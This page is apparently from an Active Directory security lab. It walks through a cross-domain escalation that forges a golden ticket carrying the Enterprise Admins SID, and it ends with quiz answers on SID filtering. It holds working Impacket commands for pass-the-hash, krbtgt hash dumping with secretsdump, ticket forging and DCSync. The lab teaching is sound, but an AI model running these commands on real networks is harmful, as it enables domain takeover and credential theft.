

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/Trustpocalypse/index.html · generator: mkdocs

#Trustpocalypse

The Trustpocalypse attack illustrates how an attacker can navigate from one domain to others very easily, once a single domain has been compromised.

Throughout this lab, we've seen multiple ways of compromising the north domain. Recall one of them in order to retrieve the krbtgt account's hash, which is needed in this attack.

With the krbtgt's account hash, we can forge golden tickets, as seen in the 'Golden Tickets' section of this lab. What if I told you that with this hash we can also forge tickets with admin access on other domains? This way, by compromising a single domain (which isn't an easy task, don't get me wrong), an attacker can then easily (yes, then it's easy) compromise other trusting entire domains.

This can be done through the SID history mechanism in AD. Basically, the attacker can add the Enterprise Admins SID to the forged ticket, granting the attacker Enterprise Admin privileges (Admin Privileges in every domain of the forest). This way, the attacker can compromise other domains. This is only possible in trusts that do not enforce SID filtering, which is the case of intra-forest trusts by default, which in our lab, is established between the NORTH and the ALTAIR domain. This allows this kind of SID injection to succeed.

First, the attacker needs to find which are the SIDs that will be needed for this process. Its own domain SID, as well as the Forest Root domain SID (altair's SID in our case):
```
#These commands are here used with an admin hash, please retrieve your hash and replace it in these commands. Through other attacks we were able to retrieve the admins hash. If you dont have the hash, go back to these attacks and retrieve it
lookupsid.py -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86 -domain-sids north.altair.local/Administrator@192.168.122.20 0 #altair.local domain SID
lookupsid.py -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86 -domain-sids north.altair.local/Administrator@192.168.122.10 0 #north.altair.local domain SID
```

Now we have the required SIDs to this attack. To get the EA SID, we just need to add -519 at the end of altair's domain SID.

Now, we can build a TGT that includes the EA SID, and thus we’ll have full administrator access in altair, from the north domain. For that, we’ll use the 'ticketer.py' script from Impacket. To use the 'ticketer.py' script, we’ll need the krbtgt account’s NT hash. Retrieve it using 'secretsdump.py' script with the admin hashes. Then, retrieve the NT hash and use it in the script.

```
#get the krbtgt account hash
secretsdump.py north.altair.local/administrator@192.168.122.10 -hashes aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::

#The -domain-sid argument is the sid from the current domain, north. then the -extra-sid argument is the EA SID, the altair's SID + -519
ticketer.py -nthash 640464e963ce78864650de778a6b9c31 -domain-sid S-1-5-21-1162943719-2261011477-1519509434 -domain north.altair.local -extra-sid S-1-5-21-1073456172-1737515156-949376640-519 berntheman
export KRB5CCNAME=/your/dir/berntheman.ccache
secretsdump.py -k -no-pass -just-dc-ntlm north.altair.local/berntheman@chief.altair.local
```

Et voilà, we've compromised a trusting domain with a single ticket, which we can forge since we've compromised the trusted domain. On one sweep, an entire domain is compromised. Very scary.

!!! question
    Can inter-forest trusts be attacked in this manner? Explain the mechanism that prevents it.
??? success "Answer"
    No, not by default. By default inter-forest trusts have SID filtering enabled. The SID filtering mechanism filters out SIDs that do not pertain to the domain from which the ticket is being sent from. This means that, in the case of this attack, if SID filtering was enabled, the attacker could not use a ticket that held the EA SID since this specific SID pertains to the altair domain, and not the north domain. Only SIDs from north would not be filtered by the SID filtering mechanism.
!!! question
    Why was the SID history mechanism implemented?
??? success "Answer" 
    The SID history mechanism was implemented to simplify the migration of users or computers between domains. When a security principal moves from one domain (like north) to another (altair, for example), their SID changes because part of the SID is the domain SID.
    Access to resources is controlled by ACLs tied to specific SIDs, so without SID history, admins would need to manually reconfigure permissions on all resources the user previously accessed — a tedious task.
    With SID history, the migrated account retains its old SID in its authentication token, allowing it to access resources in the old domain without modifying any ACLs.
